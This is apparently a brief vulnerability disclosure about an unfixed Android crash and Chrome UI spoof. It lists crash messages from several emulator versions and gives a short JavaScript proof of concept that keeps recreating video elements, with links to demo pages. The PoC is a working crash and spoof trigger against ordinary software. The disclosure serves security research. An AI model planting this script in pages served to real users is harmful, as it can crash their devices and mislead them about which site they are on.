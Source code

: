 ```yaml
---
title: Android Crash and UI spoof (Not fixed)
---
```


Android 12 (x86_64): Internal Emulator crash EXCEPTION_ACCESS_VIOLATION_WRITE  
Android 11 (x86): Emulator closes  
Android 9 (x86): Launcher crash `frameworks/av/media/libstagefright/omx/SimpleSoftOMXComponent.cpp:476 CHECK(state == OMX_StateLoaded || state == OMX_StateExecuting)` failed  

I have also had issues where the address bar or a different website in the case of a webview get shown instead of the video element.
```js
<script> onload = () => { createVideo();createVideo();createVideo();createVideo();createVideo(); } function createVideo() { let v = null; setInterval(() => { if (v) document.body.removeChild(v); v = document.createElement('video'); v.width="1000"; v.src = 'video.mp4'; document.body.appendChild(v); }, 2000); } </script>
```
Demos: [Doge PoC](https://ndev.tk/doge/) and [Unreliable Chrome UI spoof](https://ndev.tk/video.html)
